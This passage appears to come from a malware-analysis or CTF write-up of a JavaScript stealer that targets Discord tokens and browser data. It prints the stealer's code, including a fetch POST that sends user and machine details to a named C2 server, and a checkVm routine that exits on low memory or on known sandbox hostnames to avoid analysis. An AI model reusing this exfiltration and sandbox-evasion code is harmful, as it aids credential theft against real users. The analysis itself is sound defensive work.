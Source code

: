 
`api` is likely the C2 server that’s in use, `https://illitmagnetic.site/api/`
(Task 5 and Task 7). There are 20 occurrences of the string “options.api”, and
all 20 are proceeded by “fetch(“.

### General

#### <function>

`<function>` is a function that defines itself and then calls itself in a very
JavaScript way:

    
    
    (async() => {
    ...[snip]...
    })();
    

Inside there are three `try` / `catch` blocks, each with the same `catch`
except for the error message is slightly different:

    
    
        try {
    ...[snip]...
        } catch(e) {
            await fetch(options.api + 'errors', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    duvet_user: options?.user_id,
                    computer_name: userInfo()?.username,
                    data: {
                        error: `Error from Injection: ${e}`
                    }
                })
            });
        };
    

The first block calls three functions, and the other two call one each:

  1. `checkVm`, `checkCmdInstallation`, and `newInjection`
  2. `getDiscordTokens`
  3. `allBrowserData`

#### checkVm

There’s a function called `checkVM`:

    
    
    function checkVm() {
        if(Math.round(totalmem() / (1024 * 1024 * 1024)) < 2) process.exit(1);
        if([
            'bee7370c-8c0c-4', 'desktop-nakffmt', 'win-5e07cos9alr', 'b30f0242-1c6a-4', 'desktop-vrsqlag', 'q9iatrkprh', 'xc64zb',
            'desktop-d019gdm', 'desktop-wi8clet', 'server1', 'lisa-pc', 'john-pc', 'desktop-b0t93d6', 'desktop-1pykp29', 'desktop-1y2433r',
            'wileypc', 'work', '6c4e733f-c2d9-4', 'ralphs-pc', 'desktop-wg3myjs', 'desktop-7xc6gez', 'desktop-5ov9s0o', 'qarzhrdbpj',
            'oreleepc', 'archibaldpc', 'julia-pc', 'd1bnjkfvlh', 'compname_5076', 'desktop-vkeons4', 'NTT-EFF-2W11WSS', 'aranmoo', 'kathlcox', 'rotembarne', 'bilawson', 'seanwalla', 'gugonzal', 'zachwood', 'theresap', 'joyedwar', 'richar', 'dburns', 'willipe'
        ].includes(hostname().toLowerCase())) process.exit(1);
    